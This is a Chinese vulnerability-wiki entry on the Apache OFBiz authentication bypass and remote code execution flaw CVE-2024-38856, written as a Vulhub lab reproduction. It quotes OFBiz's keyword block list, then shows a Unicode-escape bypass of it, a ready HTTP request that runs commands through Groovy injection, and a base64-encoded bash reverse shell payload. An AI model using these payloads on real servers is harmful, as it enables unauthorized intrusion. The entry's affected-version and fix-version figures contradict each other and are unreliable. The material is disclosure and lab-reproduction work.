


# Apache OFBiz 身份验证绕过导致远程代码执行 CVE-2024-38856

<!-- vulwiki-editorial:start -->
## 校订与适用边界

本项受影响上界为 18.12.15，原文 <18.12.14 漏列了一个受影响版本。18.12.16 是后续修复，不应倒置为 CVE-2024-38856 的首次修复版本。

- 适用前提：匿名controller映射到缺少权限检查的敏感view；实验18.12.10，Groovy关键词过滤可绕
- 证据范围：机制与multipart请求相符，但版本表/修复表错误且彼此冲突。

### 已有来源支持的更正

- 官方列38856修复18.12.15，受影响此前版本

### 本次正文校订

- 按审阅确认的分支边界更正正文范围。
- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 简单称51467不完全修复略掉2024控制器/视图混淆及连续补丁背景
- 示例18.12.10过旧，不足独立证明18.12.14也受影响
- 反弹地址127.0.0.1需明确实验假设

### 核验来源

- https://ofbiz.apache.org/security.html

### 操作风险与资料使用

- 含计划任务、启动项或 SSH 授权文件写入：会改变后续执行或登录行为。测试前备份原文件，结束后恢复原内容、权限与属主，不覆盖生产文件。
- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache OFBiz 是一个开源的企业资源规划（ERP）系统。它提供了一套企业应用程序，用于集成和自动化企业的许多业务流程。

这个漏洞是由于对 CVE-2023-51467 的不完全修复而产生的。在 Apache OFBiz 18.12.11 版本中，开发人员认为他们已经修复了该漏洞，但实际上他们只解决了其中一种利用方法。Groovy 表达式注入仍然存在，允许未经授权的用户在服务器上执行任意命令。

参考链接：

- https://github.com/apache/ofbiz-framework/commit/31d8d7
- https://forum.butian.net/article/524
- https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz
- https://issues.apache.org/jira/browse/OFBIZ-13128

## 漏洞影响

```
Apache OFBiz < 18.12.15
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.10 服务器：

```shell
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain your-ip not accepted to prevent host header injection. 
```




## 漏洞复现

Apache Ofbiz 限制了如下一些关键词的使用，可以通过 Unicode 编码来绕过这个限制，比如 `\u0065xecute`：

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```

直接发送如下请求即可使用 Groovy 脚本执行 `id` 命令：

```http
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```




reverse shell payload：

```
throw new Exception('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}'.\u0065xecute().text);
```

## 漏洞修复

升级至 18.12.16 及以上版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
